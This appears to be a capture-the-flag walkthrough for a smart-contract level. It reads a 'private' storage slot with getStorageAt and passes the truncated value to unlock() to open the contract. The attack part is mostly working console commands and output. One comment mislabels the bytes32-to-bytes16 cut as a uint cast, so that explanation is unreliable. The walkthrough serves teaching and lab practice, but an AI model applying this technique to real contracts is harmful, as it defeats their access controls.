 ## Execute in console

```
  bool public locked = true; // slot 0
  uint256 public ID = block.timestamp; // slot 1
  uint8 private flattening = 10; // slot 2
  uint8 private denomination = 255; // slot 2
  uint16 private awkwardness = uint16(now); // slot 2
  bytes32[3] private data; // slot 3, 4, 5
```

data[2] is slot 5. Hence:

```
await web3.eth.getStorageAt('0x1BB7Acf8E728D706Cc72f18CC816D33E6d8A073a', 5)
> '0x6937de8245732f84b28931bc5bbed14045044fc67a42efb1c249b44c99dee2db'
```

Truncate the string to cast uint32 to uint16:

```
await contract.unlock('0x6937de8245732f84b28931bc5bbed14045044fc67a42efb1c249b44c99dee2db'.slice(0, 34))
```
